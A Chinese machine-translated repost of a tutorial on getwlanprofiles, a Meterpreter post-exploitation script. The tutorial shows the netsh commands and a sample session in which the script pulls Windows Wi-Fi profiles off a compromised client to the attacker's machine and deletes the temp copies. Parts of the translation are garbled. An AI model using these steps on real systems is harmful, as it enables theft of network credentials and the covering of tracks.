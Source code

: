 # metasploit getwlanprofiles–从 Windows 客户端下载无线配置文件的简单脚本

> 原文：<https://kalilinuxtutorials.com/metasploit-getwlanprofiles-simple-script/>

Metasploit getwlanprofiles 是一个 Meterpreter 脚本，当它在 Windows 7 或 Vista 系统上运行时，将提取并下载所有由 Windows 客户设置的无线配置文件，即不是由外部客户应用程序设置的。

它通过使用以下命令将所有配置文件转储到当前的%TEMP%目录来实现这一点

```
netsh wlan export profile folder=%TEMP%
```

此时，对于输出的每一行，找到配置文件的文件名并下载它。然后从索引中删除该记录。

#### **也读作[win pirate——自动化粘滞键 Hack](http://kalilinuxtutorials.com/winpirate-automated-sticky-keys-hack/)**

这些配置文件存储在**. ms F3/logs/scripts/WLAN _ profiles/**目录中。

要重用这些配置文件，可以使用以下命令将它们导入到另一个 Windows 框中

```
netsh wlan add profile filename="the_filename.xml"
```

测试时发现的一个问题是，你是否有一个外部的 wifi 卡，并在那时设置配置文件驱逐卡。netsh 脚本将无法再访问这些配置文件。当卡重新插入时，配置文件返回。在任何情况下，都有一种方法可以访问它们，但是 Metasploit getwlanprofiles 不能做到这一点。

## **Metasploit getwlanprofiles 用法**

只需解压缩脚本并将其移动到 meterpreter/scripts 目录。同时最好删除文件名中的版本号。

运行 Metasploit 时，getwlanprofiles 应如下所示:

```
meterpreter > run getwlanprofiles 
[*] Running Windows Wlan Profile Downloader Meterpreter Script
[*] New session on 192.168.0.80:53831...
[*] Running export command - netsh wlan export profile folder=C:\Users\robin\AppData\Local\Temp
[*] Downloading profile wpa_profile to /home/robin/.msf3/logs/scripts/wlan_profiles/VISTA-DOMAIN_20110110.5030/wpa_profile.xml
[*]     Deleting file C:\Users\robin\AppData\Local\Temp\Wireless Network Connection 2-wpa.xml
[*] Downloading profile thisiswep to /home/robin/.msf3/logs/scripts/wlan_profiles/VISTA-DOMAIN_20110110.5030/thisiswep.xml
[*]     Deleting file C:\Users\robin\AppData\Local\Temp\Wireless Network Connection 2-thisiswep.xml
[*] Downloading profile eap to /home/robin/.msf3/logs/scripts/wlan_profiles/VISTA-DOMAIN_20110110.5030/eap.xml
[*]     Deleting file C:\Users\robin\AppData\Local\Temp\Wireless Network Connection 2-this is it.xml
[*] Found and extracted 3 profiles
[*] Done!
```

[![](img/a51de913dc60eee505c4a68651ee8e4d.png)](https://digi.ninja/metasploit/getwlanprofiles.php)